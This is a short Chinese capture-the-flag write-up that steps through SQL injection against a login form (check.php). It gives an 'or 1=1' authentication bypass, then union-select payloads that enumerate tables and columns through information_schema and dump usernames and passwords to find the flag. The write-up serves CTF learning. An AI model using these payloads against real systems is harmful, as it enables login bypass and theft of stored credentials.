

1. 看到登录，测试万能密码

```
check.php?username=admin' or '1'='1&password=1
```



2. 找显示的字段数量和位置

   ```
   check.php?username=admin' order by 4%23='1&password=1
   ```

   

   最大字段数为3

   ```
   check.php?username=1' union select 1,2,3%23='1&password=1
   ```

   

   回显点位置是2和3

3. 常规注入

   查表

   ```
   check.php?username=1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()%23='1&password=1
   ```

   

   查字段

   ```
   check.php?username=1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23='1&password=1
   ```

   

   查字段所有的内容。flag就在里面

   ```
   check.php?username=1' union select 1,group_concat(id,username,password),3 from l0ve1ysq1%23='1&password=1
   ```

   

   